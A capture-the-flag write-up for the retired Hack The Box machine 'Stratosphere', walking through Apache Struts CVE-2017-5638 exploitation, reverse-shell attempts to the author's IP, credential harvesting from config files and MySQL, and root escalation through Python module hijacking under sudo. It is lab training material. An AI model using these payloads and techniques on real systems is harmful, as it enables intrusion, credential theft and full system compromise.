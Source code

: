 # Stratosphere

This is the write-up for the box Stratosphere that got retired at the 1st September 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.64    stratosphere.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/stratosphere.nmap 10.10.10.64
```

```markdown
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

## Checking HTTP (Port 80)

The web page is a company website with nothing interesting on it and in the HTML source.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.64 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- /manager
  - Login prompt for _Tomcat Manager Application_
- /Monitoring
  - Forwards to _/Monitoring/example/Welcome.action_ and there is a button to _"Sign On"_ or _"Register"_.

![Monitoring page](https://kyuu-ji.github.io/htb-write-up/stratosphere/stratosphere_web-1.png)

The button _Register_ forwards to _/Monitoring/example/Register.action_ but there is only on sentence that it is under construction.
The button _Sign On_ forwards to _/Monitoring/example/Login_input.action_ where it is possible to input an username and a password.

![Sign on page](https://kyuu-ji.github.io/htb-write-up/stratosphere/stratosphere_web-2.png)

This _.action_ extension is mostly used in [Apache Struts](https://struts.apache.org/core-developers/action-configuration.html) and are used to determine how to process requests.

### Enumerating and exploiting Apache Struts

In an [article from Qualys](https://blog.qualys.com/securitylabs/2017/03/14/apache-struts-cve-2017-5638-vulnerability-and-the-qualys-solution) they describe what kind of request to send to the server to see if it is vulnerable.
```markdown
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Qualys-Struts',3195*5088)}.multipart/form-data
```

If we send this, the box will execute the math and response with the result of it in the header:
```markdown
# Request
GET /Monitoring/example/Welcome.action HTTP/1.1
Host: 10.10.10.64
(...)
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('Test',**3195*5088**)}.multipart/form-data

# Response
HTTP/1.1 200
**Test: 16256160**
Content-Type: text/html;charset=UTF-8
```

It seems like the box is vulnerable and as stated in the article, lets see if we can use **CVE-2017-5638**.
There is an exploit script called [struts-pwn on Github](https://github.com/mazen160/struts-pwn):
```markdown
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c id
```

This executes the `id` command and displays the output, which means we have command execution:
```markdown
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```

Testing network connection and trying to start a reverse shell:
```markdown
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "bash -i >& /dev/tcp/10.10.14.34/9001 0>&1"

python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "wget http://10.10.14.34/"

python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "nc -u 10.10.14.34 53"
```

Every connection get closed immediately, so there is probably a firewall in the way.
In this case I will use a script to connect to the box with a web shell via HTTP request without callbacks to my local client. The script can be found in this repository.
```markdown
python3 stratosphere_webshell.py
```

This will use the exploit from **struts-pwn** and start a shell session as the user _tomcat8_.

## Privilege Escalation

As we are in the _/var/lib/tomcat8_ directory we can search for passwords in the configuration files.
In _/var/lib/tomcat8/db_connect_ there are two credentials:
```markdown
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]       
user=admin
pass=admin
```

As the file is called _db_connect_ lets use the credentials on **MySQL**:
```markdown
mysql -h localhost -u ssn_admin -p

mysql -h localhost -u admin -p
```

Both credentials work but _ssn_admin_ does not have access to any interesting databases while _admin_ has:
```markdown
show databases;
use users;
show tables;
select * from accounts;
```
```markdown
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
```

In the _/etc/passwd_ there is a _richard_ user, so we can SSH into the server:
```markdown
ssh richard@10.10.10.64
```

### Privilege Escalation to root

The home directory of _richard_ has a Python script named _test.py_ of which root is the owner of and can write to it:
```markdown
-rwxr-x--- 1 root    richard 1507 Mar 19  2018 test.py
```

The script looks like a hash cracking challenge with different hash types to crack and when successful, execute _/root/success.py_ which we don't know what it does. The hash types are in this order to crack:
> MD5, SHA1, MD4, BLAKE512

As the hash type _BLAKE512_ is secure and a very long string, cracking it will take way too long.
This challenge is not meant to be done this way.

When looking at the `sudo` privileges of _richard_, it shows that he can run this script as sudo:
```markdown
sudo -l

# Output
User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

The script loads one module in the beginning:
```markdown
import hashlib

(...)
```

By loading this module from the current working directory and running the script with sudo privileges, we can abuse this script to run any command as root.

Creating _hashlib.py_ in _/home/richard_ with the following contents to execute `bash`:
```python
import os

os.system("/bin/bash")
```

Running _test.py_ with `sudo`:
```markdown
sudo python /home/richard/test.py
```

Now it loads _hashlib.py_ from the current directory, runs the code and starts a shell as root!
